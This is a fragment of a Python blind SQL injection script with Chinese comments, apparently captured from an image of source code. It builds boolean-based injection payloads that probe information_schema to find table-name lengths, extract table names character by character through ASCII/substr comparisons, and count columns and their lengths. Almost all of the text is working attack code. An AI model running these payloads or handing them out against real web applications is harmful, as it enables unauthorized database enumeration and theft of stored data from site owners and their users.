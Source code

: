 ```
        table_num+=1


#获取各个表名长度
def get_tables_name_length(database,table_num):
    table_name_length_list=[]
    for i in range(0, table_num):
        table_name_length = 0
        while True:
            #payload = f"'or length((select table_name from information_schema.tables where table_schema='{database}' limit{i},1))={table_name_length} --+"
            payload = f"'or length((select table_name from information_schema.tables where table_schema='{database}' limit {i},1))={table_name_length} --+"
            if send_payload(payload):
                print(f"第{i + 1}个表名长度为", table_name_length)
                table_name_length_list.append(table_name_length)
                break
            table_name_length +=1
    return table_name_length_list

#获取表名
def get_table_name(database,table_num,table_name_length_list):
    table_name_list=[]
    for i in range(0,table_num):
        table_name=""
        for j in range(1,table_name_length_list[i]+1):
            for char in chars:
                payload=f"'or (ascii(substr((select table_name from information_schema.tables where table_schema='{database}' limit {i},1),{j},1)))={ord(char)}--+"
                if send_payload(payload):
                    table_name+=char
                    #print(1)
                    break
        print(f"第{i + 1}个表名为", table_name)
        table_name_list.append(table_name)
    return table_name_list


#获取列的数量
def get_column_num(database,table_name_list):
    for table_name in table_name_list:
        column_num=0
        while True:
            #print(column_num)
            payload=f"' or (select count(column_name) from information_schema.columns where table_name='{table_name}')={column_num} --+"
            if send_payload(payload):
                print(f"{table_name}表的列数为:",column_num)
                break
            column_num+=1
        column_length_list=get_column_length(database,table_name,column_num)
        column_name_list=get_column_name(database,table_name,column_num,column_length_list)
        data_num_list=get_data_num(database,table_name,column_name_list)
        get_data(database,table_name,column_name_list,data_num_list)
#获取各个列的长度
def get_column_length(database,table_name,column_num):
    column_length_list=[]
    for i in range(0,column_num):
        column_length=0
        while True:
            #print(column_length)
            payload=f"'or (select length(column_name) from information_schema.columns where table_name='{table_name}' limit {i},1)={column_length}--+"
```